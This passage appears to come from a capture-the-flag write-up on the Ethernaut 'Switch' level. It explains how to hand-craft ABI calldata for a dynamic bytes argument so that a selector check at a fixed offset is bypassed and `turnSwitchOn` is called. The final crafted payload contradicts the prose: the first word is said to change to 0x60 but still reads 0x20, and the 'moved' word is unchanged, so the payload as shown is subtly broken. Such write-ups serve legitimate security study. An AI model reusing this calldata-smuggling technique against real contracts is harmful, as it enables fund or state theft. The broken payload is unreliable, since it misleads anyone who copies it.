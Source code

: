 ### Exploit

Calling `turnSwitchOn` directly is impossible due to the `onlyThis` modifier. We will need to call `flipSwitch` which calls its own contract.

Let's carefully construct a calldata such that `onlyOff` is satisfied and such that `flipSwitch` calls `turnSwitchOn`. Let's simply call `flipSwitch` with `offSelector` as argument. The transaction is successful but no state changes as expected.

Looking at the transaction on Etherscan we see that the calldata is the following.

```
Function: flipSwitch(bytes _data) ***

MethodID: 0x30c13ade
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000004
[2]:  20606e1500000000000000000000000000000000000000000000000000000000
```

The value `20606e15` is `offSelector`. It needs to stay exactly there due to the assembly section looking at the 68th byte.

Since `bytes` is dynamic, it is encoded following special rules. The 20 in the first 32 bytes word represents how many bytes you need to skip forward for the actual first value of `bytes`. (20 is 32 in hex)

By skipping past the 3rd 32 bytes word we can now put the selector value for `turnSwitchOn`. This value can be found with the following.

```js
bytes4(keccak256("turnSwitchOn()"));
```

Therefore changing the 20 bytes to 60 bytes in the first word. Then moving the second word as the fourth word instead. And finally adding a fifth word with the `turnSwitchOn` value, we get the following.

```
MethodID: 0x30c13ade
[0]: 0000000000000000000000000000000000000000000000000000000000000020
[1]: 0000000000000000000000000000000000000000000000000000000000000004
[2]: 20606e1500000000000000000000000000000000000000000000000000000000
[3]: 0000000000000000000000000000000000000000000000000000000000000004
[4]: 76227e1200000000000000000000000000000000000000000000000000000000
```

## <a id="readings"></a>Essential readings

Here is a list of links that helped me solve these levels.

### Environements and tools

-   The package.json of the openzeppelin contracts used in Ethernaut. Two different versions are used: <a target="_blank" rel="noopener noreferrer" href="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/package.json">https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/package.json</a>

